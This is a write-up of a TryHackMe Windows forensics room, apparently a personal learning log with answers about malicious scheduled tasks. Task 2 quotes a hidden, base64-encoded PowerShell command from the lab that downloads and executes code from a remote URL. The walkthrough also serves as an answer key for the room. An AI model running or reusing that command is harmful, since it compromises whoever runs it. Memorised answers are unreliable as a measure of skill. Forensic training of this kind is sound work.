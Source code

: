 <h1 align="center">Windows Endpoint Investigation<br>Advanced Endpoint Investigation<img width="660px" src="https://github.com/user-attachments/assets/5f257bab-be7b-455e-8d8a-95556bf3e38d"><br>Windows Applications Forensics</h1>

<p align="center"July 1, 2025<br>
Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>, and I’m genuinely excited to join you on this adventure.<br>
It´s part of my $$\textcolor{#FF69B4}{\textbf{421}}$$-day-streak in  <a href="https://tryhackme.com">TryHackMe</a>.<br><br>
<img width="300px" src="" alt="Your Image Badge"><br></p>
<p align="center"><em>Perform a live analysis on Windows systems, focused on determining the outliers based on known behaviour of scheduled tasks, services, and installed applications.</em>.<br>
It is classified as a medium-level walkthrough.<br>
You can join it for 🆓 using your own virtual machine with openVPN or TryHackMe´s AttackBox if you are subscribed.<br>
Can be accessed clicking  <a href="https://tryhackme.com/room/windowsapplications">here</a>.</p>

<p align="center"> <img width="1000px" src=""> </p>

<br>
<br>

<h2> Task 1 . Introduction</h2>

<h3 align="left"> Answer the question below</h3>

> 1.1. <em>I have successfully started the virtual machine.</em><br><a id='1.1'></a>
>> <strong><code>No answer needed</code></strong><br>
<p></p>

<br>

<h2> Task 2 . Introduction</h2>

<h3 align="left"> Answer the questions below</h3>

> 2.1. <em>Who created the malicious scheduled tasks?</em><br><a id='2.1'></a>
>> <strong><code>mike.myers</code></strong><br>
<p></p>

![image](https://github.com/user-attachments/assets/25820ccf-b778-4cb5-be4d-820aed2d82a3)

<br>

> 2.2. <em>Based on the ones discovered from the logs, what URL is accessed by this malicious scheduled task? (format: defanged URL)</em><br><a id='2.2'></a>
>> <strong><code>hxxp[://]hrcbishtek[.]com/a</code></strong><br>
<p></p>

![image](https://github.com/user-attachments/assets/0b0e4cfa-83a1-4a26-ad67-47a84feec3c7)

```bash
-w hidden -enc aQBlAHgAKABpAHcAcgAgAC0AdQBzAGUAYgAgAGgAdAB0AHAAOgAvAC8AaAByAGMAYgBpAHMAaAB0AGUAawAuAGMAbwBtAC8AYQApAA==
```

![image](https://github.com/user-attachments/assets/2afaf7ff-84b1-4a9b-9f14-0e6e93e2c650)

![image](https://github.com/user-attachments/assets/c58dc838-ceed-4adb-803e-24e14ac54d9d)


<br>

> 2.2. <em></em><br><a id='2.3'></a>
>> <strong><code>_____</code></strong><br>
<p></p>

<br>

<h2> Task 3 . Manual Inspection: Scheduled Tasks</h2>

<h3 align="left"> Answer the questions below</h3>

> 3.1. <em>Aside from the scheduled tasks from Windows Event Logs, what does the second malicious scheduled task execute?</em><br><a id='3.1'></a>
>> <strong><code>C:\Users\Public\pagefilerpqy.exe</code></strong><br>
<p></p>

![image](https://github.com/user-attachments/assets/a60b303a-a15f-45f7-8314-4b333762745d)

![image](https://github.com/user-attachments/assets/fa965958-c620-4935-ad5b-8f7d101aaf71)

<br>

> 3.2. <em>Based on Q1, what time does the second malicious task execute daily? (format: HH:MM, e.g. 18:30)</em><br><a id='3.2'></a>
>> <strong><code>17:21</code></strong><br>
<p></p>

![image](https://github.com/user-attachments/assets/082fd214-101b-4cf5-967b-290ea6fed071)

![image](https://github.com/user-attachments/assets/30c63055-6eca-405a-aa2d-21df253ea135)


